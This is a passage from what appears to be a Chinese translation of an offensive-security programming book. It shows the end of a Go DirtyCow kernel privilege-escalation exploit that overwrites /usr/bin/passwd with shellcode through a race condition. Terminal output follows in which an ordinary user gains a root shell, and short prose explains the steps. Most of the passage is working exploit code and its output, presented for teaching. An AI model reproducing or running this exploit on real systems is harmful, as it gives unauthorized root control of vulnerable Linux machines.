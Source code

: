 ```go
    if err != nil {
        log.Fatal(err) 
    }

    fmt.Printf("Size of binary: %d\n", st.Size())

    payload := make([]byte, st.Size()) 
    for i, _ := range payload {
        payload[i] = 0x90 
    }
    for i, v := range sc { 
        payload[i] = v
    }

    mapp, _, _ = syscall.Syscall6( 
        syscall.SYS_MMAP,
        uintptr(0), 
        uintptr(st.Size()), 
        uintptr(syscall.PROT_READ), 
        uintptr(syscall.MAP_PRIVATE), 
        f.Fd(),
        0, 
    )

    fmt.Println("Racing, this may take a while..\n") 
    go madvise()
    go procselfmem(payload)
    waitForWrite()
}
```

清单 9-14: 完整的 Go 代码 \(/ch-9/dirtycow/main.go/\)

要确认代码是否能正常运行，请在易受攻击的主机上运行。没有比看到root shell更令人满意的了。

```text
alice@ubuntu:~$ go run main.go
DirtyCow root privilege escalation Backing up /usr/bin/passwd.. to /tmp/bak Size of binary: 47032
Racing, this may take a while..

/usr/bin/passwd is overwritten 
Popping root shell
procselfmem done
Don't forget to restore /tmp/bak

root@ubuntu:/home/alice# id
uid=0(root) gid=1000(alice) groups=0(root),4(adm),1000(alice)
```

如看见的那也，程序成功运行将备份/usr/bin /passwd文件，争夺句柄的控制权，用新的预期值覆盖文件位置，并最终生成一个系统shell。Linux id命令的输出确认alice帐户已经被提升到uid=0的值，表示root级别的特权。

### 用Go创建 Shellcode
